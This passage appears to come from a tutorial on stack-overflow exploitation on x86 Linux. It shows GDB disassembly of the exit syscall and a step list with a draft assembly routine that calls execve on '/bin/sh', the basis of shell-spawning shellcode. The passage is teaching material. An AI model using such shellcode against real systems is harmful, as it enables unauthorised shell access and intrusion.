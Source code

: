 	GDB is free software and you are welcome to distribute copies of it under certain conditions; type "show copying" to see the conditions. There is absolutely no warranty for GDB; type "show warranty" for details. 
    GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
	(no debugging symbols found)...
	(gdb) disassemble _exit
	Dump of assembler code for function _exit:
	0x800034c <_exit>:      pushl  %ebp
	0x800034d <_exit+1>:    movl   %esp,%ebp
	0x800034f <_exit+3>:    pushl  %ebx
	0x8000350 <_exit+4>:    movl   $0x1,%eax
	0x8000355 <_exit+9>:    movl   0x8(%ebp),%ebx
	0x8000358 <_exit+12>:   int    $0x80
	0x800035a <_exit+14>:   movl   0xfffffffc(%ebp),%ebx
	0x800035d <_exit+17>:   movl   %ebp,%esp
	0x800035f <_exit+19>:   popl   %ebp
	0x8000360 <_exit+20>:   ret
	0x8000361 <_exit+21>:   nop
	0x8000362 <_exit+22>:   nop
	0x8000363 <_exit+23>:   nop
	End of assembler dump.

The exit syscall will place `0x1` in `EAX`, place the exit code in `EBX`,
and execute `"int 0x80"`.  That's it.  Most applications return `0` on exit to
indicate no errors.  We will place `0` in `EBX`.  Our list of steps is now:

> 1. Have the null terminated string "/bin/sh" somewhere in memory.
  2. Have the address of the string "/bin/sh" somewhere in memory followed by a null long word.
  3. Copy 0xb into the EAX register.
  4. Copy the address of the address of the string "/bin/sh" into the EBX register.
  5. Copy the address of the string "/bin/sh" into the ECX register.
  6.  Copy the address of the null long word into the EDX register.
  7. Execute the int $0x80 instruction.
  8. Copy 0x1 into the EAX register.
  9. Copy 0x0 into the EBX register.
  10. Execute the int $0x80 instruction.

Trying to put this together in assembly language, placing the string
after the code, and remembering we will place the address of the string,
and null word after the array, we have:

		movl   string_addr,string_addr_addr
		movb   $0x0,null_byte_addr
		movl   $0x0,null_addr
		movl   $0xb,%eax
		movl   string_addr,%ebx
		leal   string_addr,%ecx
		leal   null_addr,%edx
		int    $0x80
		movl   $0x1, %eax
		movl   $0x0, %ebx
		int    $0x80
		/bin/sh string goes here.
